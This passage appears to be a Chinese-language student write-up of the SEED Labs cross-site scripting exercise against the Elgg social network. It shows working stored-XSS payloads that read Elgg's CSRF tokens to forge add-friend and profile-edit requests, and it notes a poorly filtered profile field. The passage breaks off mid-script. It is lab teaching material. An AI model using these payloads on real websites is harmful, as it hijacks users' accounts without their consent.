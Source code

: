 在about me里边构造一个JS脚本，这里有个坑，复制进about me的使用会语法错误，token右边有很多奇怪的看不到的符号，需要手动删掉。

```html
<script type="text/javascript"> 
		window.onload = function () { 
		var Ajax=null; 
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // **➀**
		var token="&__elgg_token="+elgg.security.token.__elgg_token; // **➁**
		var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 
		Ajax=new XMLHttpRequest(); 
		Ajax.open("GET", sendurl, true); 
		Ajax.send(); 
		} 
</script>
```

然后用alice访问一下，可以看到添加好友成功。

**Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**

我在docker里边用指令搜索’__elgg_token’：

```bash
grep -rnw './' -e "__elgg_token"
```

找到了负责检查CSRF的文件’/var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security/Csrf.php’，然后在里边找到了检查的代码：

```php
public function validate(Request $request) {
		$token = $request->getParam('__elgg_token');
		$ts = $request->getParam('__elgg_ts');
		...
}
```

所以需要把这两个参数传递过去，这属于简单的CSRF防御。

**Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**

about me这部分确实不能注入了，我之前在CSRF那个实验里用一个错的图片链接发了一个好友申请成功了，比如设置图片的url为”http://www.seed-server.com/action/friends/add?friend=59”，但是这个实验还要检查两个token我想不到什么好的办法。

但是之前发现brief description检查不严，所以在这里变注入JS脚本一样可以成功，经过试验发现确实可以。

# Task 5: Modifying the Victim’s Profile

编辑profile，抓包可以看到各个参数名。

修改脚本， `content` 中写上payload。

```html
<script type="text/javascript">
		window.onload = function(){
				var userName="&name="+elgg.session.user.name;
				var guid="&guid="+elgg.session.user.guid;
				var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
				var token="&__elgg_token="+elgg.security.token.__elgg_token;
				var content="briefdescription=I love J3rry!" + userName + guid + ts + token;
				var samyGuid=59; //FILL IN
				var sendurl="http://www.seed-server.com/action/profile/edit";
				if(elgg.session.user.guid!=samyGuid) // **➀**
				{
						var Ajax=null;
						Ajax=new XMLHttpRequest();
						Ajax.open("POST", sendurl, true);
						Ajax.setRequestHeader("Content-Type",
						"application/x-www-form-urlencoded");
						Ajax.send(content);
```